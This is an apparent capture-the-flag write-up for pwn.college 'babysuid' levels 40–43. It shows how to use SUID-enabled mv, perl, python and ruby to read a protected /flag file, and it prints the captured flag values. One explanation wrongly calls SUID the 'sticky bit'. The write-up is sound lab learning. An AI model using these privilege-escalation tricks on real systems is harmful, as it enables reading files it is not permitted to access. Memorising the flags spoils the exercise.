 ### Level 40 - mv

This one was a bit tricky. First of all we run the program to set `SUID` to `/usr/bin/mv`. Then, we `mv` the `/usr/bin/cat` to `/usr/bin/mv`. After that, we run the program again to set the `SUID`, but now it sets the `sticky bit` to `cat` instead of `mv`.

```bash
$  mv /usr/bin/cat /usr/bin/mv && ./babysuid_level40 && mv /flag
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
pwn.college{IsS_qm6D7HBmDndCzMOq0jD5n7S.QXygTMsMDN3IzW}
```

<center>
    <h1>
Programming Languages
    </h1> 
</center>

### Level 41 - perl

After we enter the command, we need to press `enter` to get the flag.

```bash
$ LC_ALL=en_US.UTF-8 perl -pe 'BEGIN { open(FILE, "<", "/flag") or die "Cannot open file /flag: $!"; } print while <FILE>; close(FILE);' 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = "en_US.UTF-8",
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

pwn.college{0ZaXAqqFTl-8p4w1F9eP3TcYcig.QXzgTMsMDN3IzW
```

### Level 42 - python

We can simply do `python /flag` to get the flag as error.

### Level 43 - ruby

Same as before
